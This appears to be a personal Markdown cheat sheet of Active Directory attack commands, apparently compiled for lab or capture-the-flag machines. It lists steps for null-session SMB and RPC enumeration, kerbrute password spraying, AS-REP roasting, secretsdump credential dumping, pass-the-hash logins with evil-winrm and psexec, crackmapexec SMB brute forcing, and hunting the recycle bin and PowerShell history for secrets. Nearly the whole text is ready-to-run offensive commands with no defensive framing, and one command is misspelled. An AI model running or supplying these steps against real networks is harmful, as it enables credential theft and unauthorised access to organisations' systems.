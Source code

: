 # Active Directory? What to do?

**Adjust each command with the correct condition**

## list shares
`smbclient -L //[IP]`

## try anonymous login
`smbclient -N //[IP]/[sharename]`

## try null authentication
`smclient -U '' -N //[IP]/sharename`

## try with rpcclient (when got in just google rpcclient commands)
`rpcclient [ip]`

## try with rpcclient with null authentication
`rpcclient -U '' -N [IP]`

## enum more with enum4linux
`enum4linux -a [IP]`

## spray username or password with kerbrute
`~/scripts/kerbrute userenum --dc [IP] -d [domain-name] [user_list]`
`~/scripts/kerbrute bruteuser --dc [IP] -d [domain-name] [password_list] [username]`

## ASREPRoasting with GetNPUsers.py
`python3 ~/scripts/impacket/examples/GetNPUsers.py -dc-ip [IP] [domain-name]/[user] -no-pass`
and crack it

## login to smbclient if you have creds
`smbclient -L //[IP] --user=[user] --password [password]`

## access shares if you have creds
`smbclient //[IP]/[sharename] --user=[user]`

## enum basic info with rpcclient
`rpcclient [domain-name] -U [username]`
> enumdomusers
> enumdomgroups

## try to dump secrets of you have creds
`python3 ~/scripts/impacket/examples/secretsdump.py -target-ip [IP] [domain-name]/[full-username] -outputfile secretsdump.log`
or
`python3 ~/scripts/impacket/examples/secretsdump.py [options you want] [user]:[password]@[IP]`

## got NTLM hash? got password? got user? evil-winrm time
`evil-winrm -i [IP] -u [user] -H [NT hash]`
or just use the password if you got one

or just psexec
`python3 ~/scripts/impacket/examples/psexec.py [username]@[ip_address]`


## Try Bruteforce SMB with crackmapexec
`crackmapexec smb <MACHINE-IP> -u <username> -p <wordlist>`
ex: `crackmapexec smb 10.10.153.204 -u Jareth -p ~/wordlists/rockyou.txt`


## Dumping LM and NTLM when we have system.bak and sam.bak
`python3 ~/scripts/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL -outputfile hashes.txt`

## How to find SID
`whoami /all | Select-String -Pattern "[username]" -Context 2,0`

## Always check recycle bin (Even via commandline)
cd 'C:\$Recycle.bin\<SID>'
ex:
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'

## Check the powershell history (Ini ada di semua windows)
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

